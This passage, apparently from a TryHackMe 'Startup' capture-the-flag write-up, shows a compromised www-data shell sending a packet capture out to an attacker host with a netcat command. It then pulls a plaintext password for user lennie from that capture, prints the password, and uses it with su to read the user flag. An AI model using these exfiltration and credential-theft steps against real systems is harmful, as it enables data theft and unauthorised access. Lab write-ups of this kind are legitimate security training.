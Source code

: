 lets get that file using `netcat`.

```bash
www-data@startup:/incidents$ nc 10.9.0.144 55 < suspicious.pcapng
nc 10.9.0.144 55 < suspicious.pcapng
www-data@startup:/incidents$ 
```

```bash
┌──(de4dl0ck㉿kali)-[~/thm/strtup]
└─$ nc -lvnp 55 > suspicious.pcapng
listening on [any] 55 ...
connect to [10.9.0.144] from (UNKNOWN) [10.10.101.161] 56816

```
open with `wireshark` analyse the packet. there is a leet text on packet `tcp.stream eq 7`. That can possibly be the password for the other user that is `lennie`.

![](/assets/img/posts/startup/4.png)

```bash
www-data@startup:/incidents$ su lennie
su lennie
Password: c4ntg3t3n0ughsp1c3

lennie@startup:/incidents$ 
```

We can get user flag from there.

```bash
lennie@startup:~$ cat user.txt
cat user.txt
THM{--REDACTED--}
lennie@startup:~$ 
```
## Privilege Escalation 2
